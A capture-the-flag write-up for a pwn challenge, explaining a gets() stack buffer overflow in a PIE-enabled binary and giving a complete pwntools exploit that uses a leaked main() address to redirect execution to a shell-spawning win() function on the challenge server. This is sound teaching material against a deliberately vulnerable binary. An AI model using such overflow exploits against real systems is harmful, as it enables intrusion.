

# Disclaimer
This problem is almost completely identical to speedrun4, but I will include most of my writeup from that challenge as it is applicable here.

# Reconnaissance
## C Review
First we look into the provided c file. At a glance, the `main` function seems to be secure with the `fgets()` function properly limiting input to avoid overwriting the `sample` buffer. But the bottom of main calls `vuln()` function, which sounds interesting.

`vuln()` has a 50 byte buffer which it writes with `gets`, which means this is our attack vector. We will be overflowing the buffer to change the volatile int (pointer) and call another function--`win` since it spawns a shell! It is also notable that the `vuln()` function now prints something: 
```{c++}
printf("Harder, better, faster, stronger: %p\n", main);
```
That `%p` format specifier indicates an pointer address, so this is leaking the address of the main function! This will come up later.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_2

>Arch:     amd64-64-little  
>RELRO:    Partial RELRO  
>Stack:    No canary found  
>NX:       NX enabled  
>PIE:      PIE enabled

Notably, stack canary is disabled, but this time PIE is enabled. Oh no! Because PIE is enabled we can't know the exact address of the `win()` function when we want to call it, we only know it's offset from the program's base address. Luckily as we noted above, the program is leaking the address of `main()`, so we can use this to find the base address of the program. We also note that the architecture is 64-bit, which means that our address to the `win()` function will need to be 64-bit (8 bytes).

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function. 
  
It looks like despite the C file containing two buffers (`buf0` and `buf1`) only one is present here. Additionally, by looking at the positions of the two variables `local_10` and `local_48` on the stack, we see that `local_48` takes up 0x38 bytes (0x48-0x10) which amounts to a 56 byte buffer. Then, `local_10` is our pointer `volatile int (*ptr)()`, which we can tell because it is called later in the function.

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_5")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

win_address_offset = EXE.symbols['win']
main_address_offset = EXE.symbols['main']

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13375)
	return r
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`. Finally, we use one of `pwn`'s features to find the address offsets of the `win()` and `main()` functions. Because PIE is enabled, these are not the absolute address of the functions, they are relative offsets from the program's base pointer.  

The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling this function with `True` as a parameter connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we connect and read the leaked memory address.
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the process to send "Harder, better, faster, stronger: " then read the leaked address of main
# which is next on the same line.
io.recvuntil(b"Harder, better, faster, stronger: ")
data = io.recvline()[:-1] # ignore the last character of the input, which is a newline character
leaked_main_address = (int(data, 16))

# Now we use the leaked address to find the base address of the program, and use that to calculate the address of win
base_address = leaked_main_address - main_address_offset
win_address = base_address + win_address_offset
```
Here we are reading the output of the executable to get the leaked address of `main()`. We convert this to an integer so we can do math with it with the `int(x, 16)` call, using 16 to specify that the `data` variable is an integer represented in base 16. Then we find the base address of the program and calculate a value for `win_address`.

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 54 bytes then the address win(), send it, and open an 
# interactive terminal -- The system is 64 bit so we need a 64 bit pointer to the address of win()
payload = b'a'*56
payload += p64(win_address)+b'\n'
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!